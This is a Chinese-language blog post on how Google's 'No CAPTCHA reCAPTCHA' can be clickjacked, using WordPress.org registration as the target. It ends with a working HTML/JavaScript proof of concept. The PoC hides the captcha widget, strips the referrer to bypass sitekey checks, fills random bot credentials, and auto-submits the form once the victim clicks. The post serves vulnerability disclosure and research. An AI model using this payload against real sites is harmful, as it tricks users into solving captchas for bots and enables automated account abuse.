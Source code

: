 ```yaml
---
layout: post
title: The security risk of "Google reCAPTCHA"
---
```


#### reCAPTCHA ([Index](http://www.google.com/recaptcha/intro/))

> Google在2014.12.03发表了一篇文章 《[Are you a robot? Introducing “No CAPTCHA reCAPTCHA”](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)》

文章开始讲述传统验证码的方式令“真正人类”头疼，且研究表明现在的人工智能技术已经能够解决99.8%的验证码，因此扭曲的文本验证方式可能不在是一个可靠的方法。

![gg_old_captcha](/images/gg_old_captcha.jpg)

- 头疼的验证码输入
- 不可靠的文字验证码

所以不少的社区论坛使用人工识别图片选择文字答案作为验证码的方式来代替传统的验证码。

随后Google推出了**```reCAPTCHA```**项目。

![demo](/images/Recaptcha_anchorxxxxxx2x.gif)

    reCAPTCHA被gg称作没有验证码的验证码（"No CAPTCHA reCAPTCHA"），
    他让用户只需要简单的勾选就可以确认你是真实用户而非恶意机器人，操作非常简单。

#### 非单一验证
Vinay Shet或者reCAPTCHA团队也考虑到这种判断方法可能会存在误报情况，所以将验证方式进行了稳固。

 1. 传统验证码并未消失，还是会有提示输入传统验证码的方法来检测：
 ![gg_old_captcha](/images/CAPTCHA_dsahkdhkusa213dsza7i21n.png)
 
 2. 展示一张图片，让用户选择他们下面提供的图片中哪张是符合图片的：
 ![gg_old_captcha](/images/turkey_captcha2.png)
 3. 好人/坏人的判断算法
 

reCAPTCHA并未详细的说明这个新的验证码API算法的具体情况，但其中好人坏人的判断方式应该最为复杂，或基于session/cookie？

> As more websites adopt the new API, more people will see "No CAPTCHA reCAPTCHAs".  Early adopters, like Snapchat, WordPress, Humble Bundle, and several others are already seeing great results with this new API. For example, in the last week, more than 60% of WordPress’ traffic and more than 80% of Humble Bundle’s traffic on reCAPTCHA encountered the No CAPTCHA experience—users got to these sites faster. To adopt the new reCAPTCHA for your website, visit our site to learn more.

文章的最后说越来越多的网站开始使用这个新的API，例如：Snapchat, WordPress, Humble Bundle等等，也推荐大家开始使用这个reCAPTCHA项目。

#### ClickJacking

当我看完这篇文章时非常激动，因为我们再也不需要为复杂或恶心的验证码所头疼了，但之后我发现reCAPTCHA可能存在ClickJacking这种攻击类型的安全隐患，其中我们以Wordpress官方站点为例。

 - [Wordpress官方站点注册用户](https://wordpress.org/support/register.php)

其中仅仅是帐号以及邮箱是必须的，然后勾选reCAPTCHA所提供的验证码即可完成注册。

 - [ClickJacking点击劫持攻击注册](http://1.hackersoul.sinaapp.com/payload/no_captcha_clickjacking.html)

![demo_1](/images/69DFB6AC-8075-4F45-AA00-031E6F0F084E.png)

等待过后你将跳转到注册成功的页面：

![demo_2](/images/1A61E266-8B1B-4BF1-813A-536B6FB09B7B.png)

{% highlight html %}
其中测试在古董浏览器上是无法正常进行的，另外需要提一下页面中需要添加
<meta name="referrer" content="never">
来绕过他禁止对第三方数据提供sitekey的防御。
{% endhighlight %}

> 需要注意的是，reCAPTCHA会在一段时间停滞不操作页面的情况下摧毁Session：
> 
![alert_session](/images/AEAA2D26-2AA0-4AA4-9BF7-1E8071A06F53.png)

#### POC

{% highlight bash %}
<html>
    <head>
        <title>No_CAPTCHA ClickJacking demo</title>
        <meta name="referrer" content="never">
		<script type='text/javascript' src='https://www.google.com/recaptcha/api.js?ver=2'></script>
	</head>
    <body>
    <form method="post" action="https://wordpress.org/support/register.php">
    <div style="opacity:0.1" class="g-recaptcha" data-sitekey="6Ld6gcoSAAAAAEkCxPeS-_sqEokNIHwNCOtx17xo"></div>
    <input name="user_login" type="hidden" id="user_login" size="30" maxlength="30" value="" />
    <input name="user_email" id="user_email" type="hidden" value="" />
    </form>  
	半透明为了更好的展示，点击测试攻击。
    <script>
        function makeid()
        {
            var text = "";
            var possible = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789";
        
            for( var i=0; i < 7; i++ )
                text += possible.charAt(Math.floor(Math.random() * possible.length));
        
            return text;
        }
        user_login.value='BOT-'+makeid();
        user_email.value='BOT-'+makeid()+'@gmail.com';
        
        check = setInterval(function(){
          v=document.getElementById('g-recaptcha-response').value
          if(v.length>0){
            alert('Thanks for helping my bot! Your token is '+v);
            document.forms[0].submit();
            clearInterval(check);
          }
        },400)
    </script>
    </body>
</html>
{% endhighlight %}

#### 最后

google reCAPTCHA引进了一个非常NICE的验证码方式，在未来也同样可能有着跨时代的意义，但引入新模式的同时终会出现不可预料的问题，也许很多，很多。
 
 * 部分文献参考
    - [http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html](http://googleonlinesecurity.blogspot.hk/2014/12/are-you-robot-introducing-no-captcha.html)
    - [http://homakov.github.io/nocaptcha.html](http://homakov.github.io/nocaptcha.html)
    - [http://www.bbc.com/news/blogs-magazine-monitor-30326350](http://www.bbc.com/news/blogs-magazine-monitor-30326350)